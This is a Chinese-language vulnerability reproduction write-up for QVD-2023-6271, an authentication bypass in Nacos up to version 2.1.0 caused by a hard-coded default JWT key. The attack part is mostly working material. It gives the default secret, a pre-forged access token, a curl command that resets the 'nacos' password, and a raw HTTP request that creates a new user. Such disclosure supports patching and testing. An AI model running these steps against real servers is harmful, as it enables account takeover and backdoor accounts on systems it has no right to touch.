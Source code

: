 # QVD-2023-6271

>**Created by：** A-little-dragon
>
>**Team：** TracelessSec
>
>**漏洞描述：** Nacos默认key导致权限绕过登陆



# **0x01 漏洞简介**

Nacos中发现影响Nacos <= 2.1.0的问题，Nacos用户使用默认JWT密钥导致未授权访问漏洞。 通过该漏洞，攻击者可以绕过用户名密码认证，直接登录Nacos用户。

# 0x02 影响版本

```bash
0.1.0<=Nacos<=2.1.0
```

# 0x03 漏洞复现

## 获取默认的token.secret.key

在nacos中，token.secret.key值是固定死的，位置在conf下的application.properties中：

```bash
### The token expiration in seconds:
nacos.core.auth.default.token.expire.seconds=${NACOS_AUTH_TOKEN_EXPIRE_SECONDS:18000}

### The default token:
nacos.core.auth.default.token.secret.key=${NACOS_AUTH_TOKEN:SecretKey012345678901234567890123456789012345678901234567890123456789}
```

## jwt伪造

利用该默认的key进行jwt构造，直接进入后台，构造方法：

在jwt.io在线网站中，输入默认key：

```bash
SecretKey012345678901234567890123456789012345678901234567890123456789
```

![Untitled](image/Untitled.png)

**坑点：**一定要勾选`secret base64 encoded`否则会失败！

## 利用一

修改nacos用户密码，将密码修改为123456

```bash
curl -X PUT "http://192.168.100.141:8848/nacos/v1/auth/users?username=nacos&newPassword=123456&pageNo=1&accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6ODk1NjQyMjQxMn0.2ST0jsQJaFUxgZ8q_kiaGfyA6u7QbnM4URCOZwNJ-x8"
```

![Untitled](image/Untitled%201.png)

## 利用二

新建用户

```bash
POST /nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6ODk1NjQyMjQxMn0.2ST0jsQJaFUxgZ8q_kiaGfyA6u7QbnM4URCOZwNJ-x8 HTTP/1.1
Host: 192.168.100.141:8848
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:104.0) Gecko/20100101 Firefox/104.0
accept: application/json, text/plain, */*
content-type: application/x-www-form-urlencoded
Orign: http://192.168.100.141:8848
referer: http://192.168.100.141:8848/nacos/
Connection: close
Content-Length: 28

username=aaa&password=123456
```

![Untitled](image/Untitled%202.png)

## 利用三

利用accessToken登录，密码错误也可以直接登录。

![Untitled](image/Untitled%203.png)
